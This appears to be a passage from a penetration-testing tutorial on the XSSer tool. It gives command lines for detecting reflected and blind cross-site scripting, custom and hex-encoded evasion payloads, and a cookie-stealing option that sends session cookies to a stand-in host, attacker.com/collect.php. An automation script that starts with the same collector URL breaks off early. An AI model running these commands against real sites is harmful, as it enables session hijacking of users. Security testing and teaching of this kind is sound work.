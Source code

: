 #### Reflected XSS Detection

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --auto
```

#### Blind XSS Detection

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --blind
```

#### Crawling and Automatic Form Detection

```bash
xsser -u "http://vulnerable-site.com/" --crawl
```

### Payload Generation

XSSer can generate various payloads for different scenarios:

#### Basic Payloads

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --auto
```

#### Customized Payloads

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --payload="<script>alert('XSS')</script>"
```

#### Encoded Payloads for Evasion

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --Hex
```

### Exploiting XSS for Session Hijacking

XSSer can be configured to exploit XSS for cookie stealing:

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --cookie-stealer=http://attacker.com/collect.php
```

### XSSer Automation Script

This script automates a comprehensive XSS assessment:

```bash
#!/bin/bash
# xsser_comprehensive.sh - Automated XSS vulnerability assessment

# Target configuration
TARGET_URL=$1
OUTPUT_DIR="xsser_results_$(date +%Y%m%d_%H%M%S)"
COLLECTOR_URL="http://attacker.com/collect.php"  # Change to your server

# Check if a target was provided
if [ -z "$TARGET_URL" ]; then
  echo "Usage: $0 <target_url>"
  echo "Example: $0 'http://vulnerable-site.com/page.php?param=test'"
  exit 1
fi

# Create output directory
mkdir -p "$OUTPUT_DIR"
```